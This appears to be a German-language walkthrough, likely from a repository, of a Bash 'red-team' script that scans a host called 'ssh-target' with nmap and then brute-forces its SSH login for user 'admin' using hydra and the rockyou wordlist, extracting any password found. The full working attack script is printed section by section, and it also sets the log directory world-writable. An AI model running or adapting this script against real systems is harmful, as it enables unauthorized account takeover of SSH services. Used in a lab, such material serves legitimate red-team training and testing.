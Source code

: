 # Red-Team Attack Script - Erklärung

Dieses Bash-Skript simuliert einen Angriff auf einen SSH-Dienst. Es führt einen Portscan mit Nmap durch und versucht dann einen Brute-Force-Angriff mit Hydra.

---

## ⚙️ 1. Kopfzeile und Sicherheitseinstellungen

```bash
#!/bin/bash
set -euo pipefail
```

- `#!/bin/bash`: Ausführung mit der Bash-Shell.
- `set -euo pipefail`:
  - `-e`: Abbruch bei Fehler.
  - `-u`: Fehler bei undefinierten Variablen.
  - `-o pipefail`: Fehler in einer Pipe führt zum Skriptabbruch.

---

## 📁 2. Variablendefinition

```bash
LOG_DIR="/logs"
MAIN_LOG="$LOG_DIR/attack.log"
NMAP_LOG="$LOG_DIR/nmap.txt"
HYDRA_LOG="$LOG_DIR/hydra.txt"
TARGET_HOST="ssh-target"
WORDLIST="/usr/share/wordlists/rockyou.txt"
```

Definiert Speicherorte für Logs, Zielhost und Passwortliste.

---

## 📅 3. Log-Funktion

```bash
log() {
    local msg="$1"
    echo "[$(date '+%Y-%m-%d %H:%M:%S')] $msg" | tee -a "$MAIN_LOG"
}
```

Gibt Nachrichten mit Zeitstempel in die Konsole und in die Log-Datei aus.

---

## ✅ 4. Vorbereitungschecks

```bash
log "Starte Angriff auf Ziel: $TARGET_HOST"
mkdir -p "$LOG_DIR"
chmod 777 "$LOG_DIR"
```

Erstellt Log-Verzeichnis und setzt Berechtigungen.

```bash
for tool in nmap hydra; do
    if ! command -v "$tool" >/dev/null 2>&1; then
        log "Tool nicht gefunden: $tool"
        exit 1
    fi
done
```

Prüft, ob die Tools `nmap` und `hydra` vorhanden sind.

```bash
if [ ! -f "$WORDLIST" ]; then
    log "Wordlist nicht gefunden: $WORDLIST"
    exit 1
fi
```

Prüft, ob die Passwortliste existiert.

---

## 🔍 5. Portscan mit Nmap

```bash
nmap -sV -p 22,80,443 "$TARGET_HOST" -oN "$NMAP_LOG" >> "$MAIN_LOG" 2>&1
```

- Scannt Ports: 22 (SSH), 80 (HTTP), 443 (HTTPS)
- Erkennt Dienstversionen mit `-sV`
- Speichert Ergebnis in Log-Dateien

---

## 🔓 6. Brute-Force Angriff mit Hydra

```bash
hydra -l admin -P "$WORDLIST" -t 8 -vV -f -e nsr ssh://$TARGET_HOST:22 -o "$HYDRA_LOG"
```

- Brute-Force-Versuch auf SSH mit Benutzer `admin`
- `-t 8`: 8 gleichzeitige Verbindungen
- `-f`: Abbruch bei erstem Erfolg
- `-e nsr`: Testet auch leere Passwörter, Benutzername usw.

```bash
FOUND_PASS=$(grep -o "password: [a-zA-Z0-9]*" "$HYDRA_LOG" | tail -1 | cut -d' ' -f2)
```

Extrahiert gefundenes Passwort aus der Logdatei.

---

## 🏁 7. Abschlussmeldung

```bash
log "[+] Angriff abgeschlossen: $(date '+%Y-%m-%d %H:%M:%S')"
```

Gibt abschließende Erfolgsmeldung mit Zeitstempel aus.


